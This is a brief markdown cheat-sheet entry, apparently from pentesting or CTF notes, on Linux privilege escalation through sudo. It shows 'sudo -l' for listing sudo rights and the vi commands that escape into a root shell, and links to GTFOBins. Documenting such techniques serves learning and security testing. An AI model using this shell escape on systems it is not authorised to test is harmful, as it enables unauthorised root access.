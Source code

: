 ## Common

List your user's sudo priveleges with

```bash
~$ sudo -l
```

## vi

If we can sudo to use vi, we can break out of it into a shell

```bash
# within vi
:set shell=/bin/sh
:shell
```

## Links

[GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.](https://gtfobins.github.io/)